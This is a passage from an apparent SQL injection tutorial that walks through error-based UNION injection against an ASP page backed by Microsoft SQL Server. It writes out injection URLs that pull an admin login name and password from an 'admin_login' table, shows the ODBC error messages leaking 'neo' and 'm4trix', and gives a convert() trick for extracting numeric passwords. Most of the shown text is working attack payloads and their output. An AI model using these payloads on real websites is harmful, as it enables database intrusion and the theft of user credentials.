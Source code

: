 Output:

Microsoft OLE DB Provider for ODBC Drivers error ‘80040e14’  
\[Microsoft\]\[ODBC SQL Server Driver\]\[SQL Server\]ORDER BY items must appear in the select list if the statement contains a UNION operator.  
/index.asp, line 5

**6.2 How to retrieve any data we want?**  
Now that we have identified some important tables, and their column, we can use the same technique to gather any information we want from the database.

Now, let’s get the first login\_name from the ‘admin\_login’ table:

http://duck/index.asp?id=10 UNION SELECT TOP 1 login\_name FROM admin\_login–

Output:

Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’  
\[Microsoft\]\[ODBC SQL Server Driver\]\[SQL Server\]Syntax error converting the nvarchar value ‘neo’ to a column of data type int.  
/index.asp, line 5

We now know there is an admin user with the login name of ‘neo’. Finally, to get the password of ‘neo’ from the database:

http://duck/index.asp?id=10 UNION SELECT TOP 1 password FROM admin\_login where login\_name=’neo’–

Output:

Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’  
\[Microsoft\]\[ODBC SQL Server Driver\]\[SQL Server\]Syntax error converting the nvarchar value ‘m4trix’ to a column of data type int.  
/index.asp, line 5

We can now login as ‘neo’ with his password ‘m4trix’.

**6.3 How to get numeric string value?**  
There is limitation with the technique describe above. We cannot get any error message if we are trying to convert text that consists of valid number (character between 0-9 only). Let say we are trying to get password of ‘trinity’ which is ‘31173’:

http://duck/index.asp?id=10 UNION SELECT TOP 1 password FROM admin\_login where login\_name=’trinity’–

We will probably get a ‘Page Not Found’ error. The reason being, the password ‘31173’ will be converted into a number, before UNION with an integer (10 in this case). Since it is a valid UNION statement, SQL server will not throw ODBC error message, and thus, we will not be able to retrieve any numeric entry.

To solve this problem, we can append the numeric string with some alphabets to make sure the conversion fail. Let us try this query instead:

http://duck/index.asp?id=10 UNION SELECT TOP 1 convert(int, password%2b’%20morpheus’) FROM admin\_login where login\_name=’trinity’–

We simply use a plus sign (+) to append the password with any text we want. (ASSCII code for ‘+’ = 0x2b). We will append ‘(space)morpheus’ into the actual password. Therefore, even if we have a numeric string ‘31173’, it will become ‘31173 morpheus’. By manually calling the convert() function, trying to convert ‘31173 morpheus’ into an integer, SQL Server will throw out ODBC error message:
